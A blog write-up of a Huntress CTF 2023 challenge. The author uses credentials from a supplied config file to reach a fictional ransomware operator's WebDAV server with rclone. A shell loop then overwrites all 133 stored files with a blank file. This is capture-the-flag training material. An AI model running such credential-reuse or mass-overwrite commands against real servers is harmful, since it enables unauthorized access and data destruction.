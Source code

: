 ```yaml
---
title: "Operation Eradication"
date: 2023-10-20T13:11:20-10:01
#draft: true
tags: ['CTF','Writeups', 'Misc', 'Medium']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Medium Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/thumb_drive)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/speakfriend) 

### Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment! They stole our data!

### Luckily, we found what looks like a configuration file, that seems to have credentials to the actor's storage server... but it doesn't seem to work. Can you get onto their server and delete all the data they stole!? 

Here we are given a txt file to download named 'operation_eradication'. This is a txt file with the following contents:
```txt
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```
We are also given a webserver to spin up. Visiting the page we see that there are 133 files which need to be deleted. 

![operation_eradication1](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/operation_eradication1.png?raw=true)

If we visit the '/webdav' directory of the site we are prompted for login credentials. However, the credentials provided in the file do not seem to work. We ended up using [rclone](https://rclone.org/webdav/) with the credentials, and were able to access the files:
```bash
rclone ls :webdav: --webdav-url=http://chal.ctf.games:32310/webdav/ --webdav-vendor=other --webdav-user=VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r --webdav-pass=HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

This allowed us to see the various directories, and start trying to delete the files. There was a problem, however, in that we are only able to move and copy the files, we do not have the ability to actually delete them. 

So we need to find a way to delete the files without deleting the files. We can achieve this by creating a blank txt file, and copying it into the files, effectively erasing the data.
```bash
rclone copyto ./test.txt :webdav:HumanResources/EmployeeHandbook.pdf --webdav-url=http://chal.ctf.games:32310/webdav/ --webdav-vendor=other --webdav-user=VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r --webdav-pass=HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5 --size-only
```
Now we only need to repeat this process for the 132 remaining files. We can automate this process by saving the output of the ls command we ran into a .txt file, and removing the file size so that only the file paths remain. Finally, we simply use a for loop to copy our blank .txt file into all of the files like so:

```bash
for f in $(cat list.txt); do rclone copyto ./test.txt :webdav:$f --webdav-url=http://chal.ctf.games:32310/webdav/ --webdav-vendor=other --webdav-user=VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r --webdav-pass=HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5; done
```
We can return to the home page and retrieve the flag!

![operation_eradication2](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/operation_eradication.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/thumb_drive)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/speakfriend) 
